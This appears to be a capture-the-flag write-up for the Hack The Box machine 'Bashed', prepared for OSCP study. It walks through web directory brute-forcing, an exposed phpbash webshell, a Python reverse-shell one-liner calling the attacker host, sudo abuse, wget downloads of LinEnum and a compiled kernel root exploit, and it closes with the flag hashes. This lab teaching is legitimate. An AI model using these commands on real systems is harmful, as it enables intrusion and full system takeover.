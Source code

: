 ```yaml
---
layout: post
title: Bashed
tags: [OSCP, Writeup, Web, Linux, Web, File Misconfiguration]
description: "Bashed write-up"
---
```


![Bashed logo](/assets/imgs/bashed/bashed.png)

### This is an easy linux box

## Tools used

------

- bash
- chmod
- ffuf
- gcc
- nc
- nmap
- python
- searchsploit
- sudo
- wget

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA bashed 10.10.10.68 -v

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Here’s what nmap teaches us :

- port 80 (HTTP) - Apache 2.4.18 (ubuntu)

So there is only the web port open, let's go see what's on it !

![Website image](/assets/imgs/bashed/website.PNG)

So there not a lot of thing on this website, only a two pages :

- index.html
- single.html

Single.html talks about something called "phpbash", which is a webshell. So there may be a way to found it on the web server. Let's do some files/directories brute force with ffuf :

```bash
ffuf -w /home/liodeus/directory-list-lowercase-2.3-medium.txt -u http://10.10.10.68/FUZZ -e .php,.html,.txt -t 10                                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /home/liodeus/directory-list-lowercase-2.3-medium.txt
 :: Extensions       : .php .html .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

index.html              [Status: 200, Size: 7742, Words: 2956, Lines: 162]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
about.html              [Status: 200, Size: 8190, Words: 2878, Lines: 155]
contact.html            [Status: 200, Size: 7802, Words: 2630, Lines: 157]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
single.html             [Status: 200, Size: 7476, Words: 2740, Lines: 155]
```

There is 4 things that stands out from ffuf :

- uploads
- php
- dev
- config.php

Going throuth all of them, the most interresting one is "/dev" :

![Index of /dev](/assets/imgs/bashed/dev.PNG)

## Exploit

------

Going over : http://10.10.10.68/dev/phpbash.php, gives me access to the webshell with the same right as the web server :

![Webshell](/assets/imgs/bashed/webshell.PNG)

I don't really like this webshell, so let's get a reverse shell on my machine, first launch a nc listener :

```bash
nc -lvp 1234
```

Then on the webshell use this reverse shell from : 

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And I'm connected :

```bash
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.68: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.68] 58018
/bin/sh: 0: can't access tty; job control turned off
```

Get a tty shell :

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

Now let's escalate ! First things that I do is to see if I can run commands as someone else :

```bash
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

So I can run any commands as "scriptmanager", so give me a bash ! 

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$whoami
whoami
scriptmanager
```

And here I'm scriptmanager ! Now it's enumeration time, let's upload "LinEnum.sh" on the box. First, start python server to transfert files :

```bash
python -m SimpleHTTPServer
```

Then, on the reverse shell download it :

```bash
wget http://10.10.14.10:8000/LinEnum.sh
```

Now launch the enumeration script :

```bash
bash LinEnum.sh
```

This is what I looked first :

```bash
[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

I learned that this is a Ubuntu 16.04.4, let's found the release date on google :

- March 1, 2018 - [https://wiki.ubuntu.com/Releases](https://wiki.ubuntu.com/Releases)

So it's been release more thant two years ago, there migth be some local privilege escalation, go found out with searchsploit :

![Searchsploit Ubuntu](/assets/imgs/bashed/searchsploit.PNG)

Download the exploit :

```bash
searchsploit -m linux/local/44298.c
```

Going throught the code, I didn't found any compilation instruction, so I just compiled it with this basic command :

```bash
gcc 44298.c -o exploit
```

Upload the compiled exploit on the machine :

```bash
python -m SimpleHTTPServer
```

```bash
wget http://10.10.14.10:8000/exploit
```

Give the exploit execution rights :

```bash
chmod +x exploit
```

Then run it :

```bash
scriptmanager@bashed:/tmp$ ./exploit
./exploit
task_struct = ffff88003775d400
uidptr = ffff88003b7c0f04
spawning root shell
root@bashed:/tmp# whoami
whoami
root
```

And voila, I'm root ! Now go read the flags.

## Flags

------

### User.txt

```bash
root@bashed:/home/arrexel# cat user.txt
cat user.txt
2c281f318555dbc1b856957c7147bfc1
```

### Root.txt

```bash
root@bashed:/root# cat root.txt
cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
```